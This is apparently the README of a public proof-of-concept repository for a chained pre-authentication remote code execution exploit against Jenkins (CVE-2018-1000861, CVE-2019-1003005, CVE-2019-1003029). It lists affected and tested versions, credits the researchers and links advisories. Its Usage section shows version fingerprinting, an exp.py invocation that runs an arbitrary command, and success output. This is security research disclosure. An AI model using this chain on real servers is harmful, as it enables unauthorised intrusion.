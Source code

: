 # awesome-jenkins-rce-2019

There is no pre-auth RCE in Jenkins since May 2017, but this is the one!

It chains CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029 to a more reliable and elegant pre-auth remote code execution!


# Affect list

* ANONYMOUS_READ disable
    - Jenkins version < 2.138

* ANONYMOUS_READ enable(or with a normal user account)
    - Jenkins build time < 2019-01-28



# Usage

```bash
$ curl -s -I http://jenkins/| grep X-Jenkins
X-Jenkins: 2.137
X-Jenkins-Session: 20f72c2e
X-Jenkins-CLI-Port: 50000
X-Jenkins-CLI2-Port: 50000

$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```


# Tested on

* Jenkins 2.53
* Jenkins 2.122
* Jenkins 2.137
* Jenkins 2.138 with ANONYMOUS_READ enable
* Jenkins 2.152 with ANONYMOUS_READ enable
* Jenkins 2.153 with ANONYMOUS_READ enable
* Script Security Plugin 1.43
* Script Security Plugin 1.48


# Acknowledgements

* [@orange_8361](https://twitter.com/orange_8361) for CVE-2018-1000861
* [@0ang3el](https://twitter.com/0ang3el) for CVE-2019-1003005
* [@webpentest](https://twitter.com/webpentest) for CVE-2019-1003029


Part slides from my HITB AMS 2019 talk:

![1.png](img/1.png)
![2.png](img/2.png)
![3.png](img/3.png)



# References

* [Hacking Jenkins Part 1 - Play with Dynamic Routing](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)
* [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
* [Jenkins Security Advisory 2018-12-05](https://jenkins.io/security/advisory/2019-12-05/)
* [Jenkins Security Advisory 2019-01-28](https://jenkins.io/security/advisory/2019-01-28/)
* [Jenkins Security Advisory 2019-03-06](https://jenkins.io/security/advisory/2019-03-06/)
